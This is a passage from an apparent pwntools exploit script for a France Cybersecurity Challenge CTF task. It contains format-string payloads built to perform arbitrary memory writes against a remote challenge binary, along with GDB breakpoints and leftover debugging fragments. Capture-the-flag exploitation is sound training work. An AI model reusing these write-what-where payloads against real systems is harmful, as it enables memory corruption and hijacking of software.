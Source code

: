 ```python
        return process([exe.path] + argv, env=environ, *a, **kw)
    elif args.REM:
        return remote("challenges.france-cybersecurity-challenge.fr", 2057)
    else:
        return process([exe.path] + argv, env=environ, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *(unsigned long long*)(&printf+198)
b exit
c
d
b *0x7ffff7fd9f00
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

# print(hex(exe.symbols["filter.0"] + 68))

# payload = fmtstr_payload(10, {0x7ffff7e86ccc}, numbwritten=0, write_size="short")
#34
#io.sendline(f"%{i}$p")

8
i = 0

# io = start()

# io.sendline(b"%p - " * 120)
# io.interactive()
# exit(0)

def writeWhatWhere(where, what, start = 0, size="short"):
    where = p64(where)
    if start == 1:
        io.sendline(b"a" * (0xeb78-14) + b"%c" * 14 + b"%hn" + b"a" * 0xfc7  + b"%c" * (31-14) + b"%hhn" + b"%c" * 13 + b"1" * (0xfd3) + b"%hhnstop")
    else:
        io.sendline(b"a" * (0xeb78-14) + b"%c" * 14 + b"%hn" + b"a" * 0xfc7  + b"%c" * (31-14) + b"%hhn" + b"%c" * 13 + b"1" * (0xfd3) + b"%hhnstop")
    io.recvuntil(b"stop")
    io.sendline(b"%c" * 46 + b"a" * 2 + b"%hhn" + b"%c" + b"a" * (u16(where[0:2]) - 0x31) + b"%hnstop")
    io.recvuntil(b"stop")

    if start != 2:
        io.sendline(b"a" * (0xeb78-14) + b"%c" * 14 + b"%hn" + b"a" * (0xfc7+2)  + b"%c" * (31-14) + b"%hhn" + b"%c" * 13 + b"1" * (0xfd3-2) + b"%hhnstop")
    else:
        io.sendline(b"a" * (0xeb78-14) + b"%c" * 14 + b"%hn" + b"a" * (0xfc7+2)  + b"%c" * (31-14) + b"%hhn" + b"%c" * 13 + b"1" * (0xfd3-2) + b"%hhnstop")
    io.recvuntil(b"stop")
```